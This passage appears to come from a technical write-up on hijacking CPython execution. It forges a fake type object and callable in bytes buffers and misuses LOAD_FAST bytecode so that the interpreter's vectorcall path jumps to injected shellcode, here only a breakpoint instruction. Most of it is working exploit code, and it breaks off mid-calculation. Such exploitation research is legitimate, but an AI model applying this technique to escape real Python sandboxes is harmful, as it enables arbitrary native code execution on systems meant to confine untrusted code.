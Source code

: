 I've put (and commented) the relevant source so you can figure out for urself but here's the summary:

Let `PyObject *callable` be the pointer to our `PyFunctionObject` and `tp` be the `PyObjectType*`, `callable->ob_type`.

1. `tp->tp_flags` to have `Py_TPFLAGS_HAVE_VECTORCALL` bit set.
2. `tp->tp_call` to have to be non-zero
3. `tp->tp_vectorcall_offset + callable` is to contain the address of the shellcode.

So creating the `tp`:

```python
# PyBytesObject.ob_sval offset, the offset to our actual bytes
PyBytesObject_ob_sval_offset = 0x20

fake_typeobject = bytearray(b'A'*0x190)
fake_typeobject[0x038:0x038+8] = (0x10).to_bytes(8, 'little') # tp_vectorcall_offset
fake_typeobject[0x080:0x080+8] = (0x1).to_bytes(8, 'little') # tp_call
fake_typeobject[0x0a8:0x0a8+8] = (0x800).to_bytes(8, 'little') # tp_flags
fake_typeobject = bytes(fake_typeobject)
fake_typeobject_addr = id(fake_typeobject) + PyBytesObject_ob_sval_offset
```

Creating `callable`:

```python
shellcode = b"\xCC Hello Success!!!" # <-- breakpoint (int 3)
shellcode_addr = id(shellcode) + PyBytesObject_ob_sval_offset

fake_callable = bytearray(b'a'*0x18)
fake_callable[0x008:0x008+8] = fake_typeobject_addr.to_bytes(8, 'little') # ob_type
fake_callable[0x010:0x010+8] = shellcode_addr.to_bytes(8, 'little') # shellcode
fake_callable = bytes(fake_callable)
fake_callable_addr = id(fake_callable) + PyBytesObject_ob_sval_offset
```

Abusing `LOAD_FAST` to load `fake_callable`:

```python
control_data = fake_callable_addr.to_bytes(8,'little')
control_data_addr = id(control_data) + PyBytesObject_ob_sval_offset

# Runs `return id(sys._getframe())`
bytecode1 = b"".join([
    # Get address of its frame and return
    inst('LOAD_CONST', 0), # Load id
    inst('LOAD_CONST', 1), # Load sys._getframe
    inst('CALL_FUNCTION', 0),
    inst('CALL_FUNCTION', 1),
    inst('RETURN_VALUE')
])

# Returns *(fastlocals[idx])
bytecode2 = lambda idx: b"".join([
    inst('LOAD_FAST', idx),
    inst('RETURN_VALUE')
])

# Get frame address by loading bytecode1
assign_bytecode(bytecode1)
frame_addr = g()
print("frame addr:", hex(frame_addr))

# Offset of _frame.f_localsplus
_frame_f_localsplus_offset = 0x68
# offset + frame_addr + idx*ptr_size = addr
# idx = (addr - offset - frame_addr)//ptr_size
```